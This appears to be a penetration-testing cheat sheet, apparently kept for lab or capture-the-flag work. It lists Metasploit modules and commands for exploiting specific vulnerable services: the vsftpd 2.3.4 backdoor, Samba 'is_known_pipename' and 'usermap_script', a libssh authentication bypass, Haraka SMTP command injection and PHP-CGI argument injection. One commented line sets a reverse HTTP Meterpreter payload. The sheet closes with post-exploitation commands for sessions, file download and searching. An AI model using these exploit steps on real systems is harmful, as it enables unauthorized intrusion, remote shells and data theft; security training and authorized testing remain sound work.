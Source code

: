 >FTP server (vsftpd v2.3.4 RCE)

```bash
search vsftpd
use vsftpd_234_backdoor

# can use shell_to_meterpreter to upgrade
```

>SAMBA v3.5.0 RCE allowing you upload an .so to a writable share, cause the server to load and execute it. (arbitrary shared library load) (versions 3.5.0 to 4.4.14, 4.5.10 and 4.6.4)

```bash
use is_known_pipename
check
run
# use shell to meterpreter to ugrade

# SAMBA version 3.0.20 < 3.0.25
use usermap_script
```

> SSH server (libssh v0.6.0-0.8.0) vulnerability to authentication bypass in libssh server code which we can leverage to execute commands

```bash
use libssh_auth_bypass
set SPAWN_PTY true
run
sessions -i $ID

# USE shell_to_meterpreter to upgrade to meterpreter
```

 >SMTP (Haraka <v2.8.9 cmd injection)
```bash
search type:exploit name:haraka
set email_to $CORRECT_MAIL
# set SRVPORT 9098
# set payload linux/x64/meterpreter_reverse_http
```

> PHP version <5.3.12/5.1.2 CGI argument Command injection
```bash 
seaarchsploit php cgi
18836.py

use exploit/multi/http/php_cgi_arg_injection
```
## Meterpreter + Post exp stuff
```bash
# execute a command on a meterpreter session without interacting with it 
sessions -C sysinfo -i 1

# edit a file in a meterpreter shell
edit flag.txt
download flag.txt

# get md5sum of a file
checksum md5 /path/file

# searching 
search -d /usr/bin -f *backdoor*
search -f *.php

# postexploitation
#list drives
show_mount
```